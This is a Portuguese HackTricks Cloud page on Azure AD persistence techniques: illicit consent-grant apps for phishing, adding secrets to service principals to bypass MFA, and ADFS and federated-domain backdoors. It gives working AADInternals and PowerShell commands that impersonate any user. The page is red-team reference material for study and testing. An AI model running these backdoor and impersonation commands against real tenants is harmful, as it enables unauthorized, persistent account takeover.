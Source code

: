# Az - Persistência

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Concessão de Consentimento Ilícito

Por padrão, qualquer usuário pode registrar um aplicativo no Azure AD. Assim, você pode registrar um aplicativo (apenas para o inquilino alvo) que precisa de permissões de alto impacto com consentimento de administrador (e aprová-lo se você for o administrador) - como enviar e-mails em nome de um usuário, gerenciamento de funções, etc. Isso nos permitirá **executar ataques de phishing** que seriam muito **frutíferos** em caso de sucesso.

Além disso, você também poderia aceitar esse aplicativo com seu usuário como uma forma de manter o acesso sobre ele.

### Aplicativos e Principais de Serviço

Com privilégios de Administrador de Aplicativos, GA ou um papel personalizado com permissões microsoft.directory/applications/credentials/update, podemos adicionar credenciais (secreto ou certificado) a um aplicativo existente.

É possível **mirar um aplicativo com altas permissões** ou **adicionar um novo aplicativo** com altas permissões.

Um papel interessante a ser adicionado ao aplicativo seria o **papel de administrador de autenticação privilegiada**, pois permite **reiniciar a senha** de Administradores Globais.

Essa técnica também permite **contornar a MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para autenticação baseada em certificado

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federação - Certificado de Assinatura de Token

Com **privilégios de DA** no AD local, é possível criar e importar **novos certificados de assinatura de Token** e **certificados de descriptografia de Token** que têm uma validade muito longa. Isso nos permitirá **fazer login como qualquer usuário** cujo ImuutableID conhecemos.

**Execute** o comando abaixo como **DA no(s) servidor(es) ADFS** para criar novos certificados (senha padrão 'AADInternals'), adicioná-los ao ADFS, desativar a rotação automática e reiniciar o serviço:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Então, atualize as informações do certificado com o Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federação - Domínio Confiável

Com privilégios de GA em um locatário, é possível **adicionar um novo domínio** (deve ser verificado), configurar seu tipo de autenticação como Federado e configurar o domínio para **confiar em um certificado específico** (any.sts no comando abaixo) e emissor:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referências

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
